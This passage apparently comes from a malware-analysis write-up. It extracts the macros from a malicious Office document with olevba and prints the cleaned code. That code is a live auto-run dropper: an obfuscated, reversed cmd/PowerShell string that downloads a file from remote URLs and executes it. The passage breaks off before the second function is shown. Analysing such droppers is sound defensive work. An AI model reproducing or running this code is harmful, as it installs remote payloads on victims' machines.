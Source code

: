 First, I’ll dump out the VBA using `olevba`, just calling it as `olevba
[filename]`. In the output, I see the following three Subs/Functions defined:

  * Document_Open()
  * FPwimk()
  * FScXPdzAh()

There’s also a bunch of junk added to make things more confusing, all in the
form of `VarType …` calls. These lines just evaluate to ints, and are space
fillers.

I’ll clean up the output by removing the metadata added by olevba and the
VarType lines. One trick in `vim` is to do `:g/VarType/d` to quickly delete
all of these. I’m left with the following vba:

    
    
    Private Sub Document_open()
    On Error Resume Next
    Shell FPwimk + FScXPdzAh, Format(vbHide)
    End Sub
    
    Function FPwimk()
    On Error Resume Next
    USojhESRic
     = Format(Chr(0 + 1 + 2 + 5 + 91)) + "md " + "/V/" + Format(Chr(0 + 1 + 1
     + 3 + 62)) + Format(Chr(0 + 0 + 0 + 1 + 33)) + "s" + "^e^t ^" + "K1" +
    "=" + "^ ^    " + "^ ^ ^" + "    "
    Tqssc = "   " + " " + "^  }^" +
    "}^{^h" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^t^a" + Format(Chr(0 + 1 + 2
     + 5 + 91)) + "};ka^e" + "r^b"
    oOsKiVzW = ";" + "z^i^" + "A$ m" + "etI-e" + "^k" + "^" + "o" + "v" + "n" + "I;"
    YjmhqPb = ")" + "^zi" + "^A^$^" + " " + "^,dq" + "^f$" + "(^"
    krszIdntsUo
     = "e^li^F^" + "dao^lnw" + "^oD." + Format(Chr(0 + 1 + 2 + 5 + 91)) +
    "^W" + "V^$" + "{^yrt{)" + "t^" + "I^w^$" + "^" + " ni^ d" + "q^f^$(h" +
     Format(Chr(0 + 1 + 2 + 5 + 91)) + "a^er" + "o^f"
    DvWCiTuRV = ";^'e^xe" + ".^'" + "^+Kz" + "^j^$+^'" + "\^'+" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^i" + "l^bu^"
    jIBcBnjZ = "p^:vn^" + "e^$=z^" + "i^A$^;^" + "'^9" + "63^" + "' = ^K" + "z^j^$^" + ";" + ")" + "'^@'(" + "t" + "i^l" + "^pS^.^'"
    KWsLc = "nkt.2" + "a^g" + "r^at^=l" + "?php.t" + "^o^ksn"
    HLFivtYKQ
     = "a" + "po" + "/TT" + "R/mo" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^." +
     "r^j^" + "5om" + "2" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^s^e"
    wRhwirP = "fd5^9" + "t" + "//:p^t^" + "t^h'=" + "tI^w"
    vcjvLjqHS
     = "$" + ";^tn^e" + "^il" + Format(Chr(0 + 1 + 1 + 3 + 62)) + "be^" +
    "W^.^" + "t^eN" + " ^t" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^ej" +
    "^bo^" + "-^w^"
    aPaiGjc = "en=" + Format(Chr(0 + 1 + 2 + 5 + 91)) +
    "W" + "V" + "$^" + " ^lle" + "h^sr" + "^e^w^o" + "^p&&" + "for
    /^" + "L %R " + "^in (" + "2^6" + "^5^;-^" + "1"
    kBEtovj = ";^0)d" + "^" + "o ^" + "se^t ^Z" + "^Y=" + "!^Z^" + "Y!" + "!^K1:~%" + "R" + ",1!&&i"
    FPwimk
     = USojhESRic + Tqssc + oOsKiVzW + YjmhqPb + krszIdntsUo + DvWCiTuRV +
    jIBcBnjZ + KWsLc + HLFivtYKQ + wRhwirP + vcjvLjqHS + aPaiGjc + kBEtovj
    End Function
    
